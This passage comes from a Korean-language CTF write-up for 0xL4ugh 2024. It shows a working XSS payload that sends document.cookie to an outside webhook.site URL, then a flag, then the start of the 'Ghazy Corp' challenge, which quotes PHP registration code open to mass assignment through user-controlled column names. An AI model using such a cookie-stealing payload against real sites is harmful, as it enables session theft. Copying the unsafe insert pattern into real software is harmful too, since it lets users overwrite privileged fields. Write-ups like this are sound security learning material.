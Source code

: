 `/report.php`의 `url` 파라미터에 전달      
```
http://127.0.0.1/?xss=<svg><style></style><a id="</style><img src=x onerror=javascript:location.href=`https://webhook.site/ff82dc39-2a77-4719-a8d2-7689bb425af9/?t=`%2Bdocument.cookie>">       
```     
     
### Flag 
0xL4ugh{Daamn_You_Should_Trust_me_0nllyyy}
       
<a id="Ghazy-Corp"></a>   
      
# Ghazy Corp      
               
19 solves / 442 points      
            
<img src="/assets/images/ctf/2024/0xL4ugh/Ghazy-Corp/2.JPG">        
       
회원가입 페이지에서 계정을 생성하려하면 `You must use email from our mail system at /mail` 문구가 뜨면서 메일 시스템에 있는 메일을 사용해야 한다고 알려준다.            
                
`/mail/index.php` 경로에서 계정 생성에 필요한 데이터를 넘겨주고, `/register.php` 회원가입 페이지로 돌아와 계정을 생성할 수 있다.    
     
```php
$data=safe_data($_POST);
$placeholders = implode(', ', array_fill(0, count($data), '?'));
$sql = "INSERT INTO users (" . implode(', ', array_keys($data)) . ") VALUES (" . $placeholders . ")";
$stmt = $conn->prepare($sql);
if ($stmt) 
{
    $types = str_repeat('s', count($data));  
    $stmt->bind_param($types, ...array_values($data));
            
    if ($stmt->execute()) 
    {
        send_registration_mail($email);
        echo "<script>alert('User Created Successfully');window.location.href='index.php';</script>";
    } 
    else 
    {
        echo "<script>alert('Error1')</script>";
    }
            
    $stmt->close();
} 
```
`/register.php`에서 회원가입 시 이메일과 패스워드만 처리하는 것이 아닌 다른 컬럼 요소 값 또한 변경시킬 수 있는 문제가 존재한다.     
     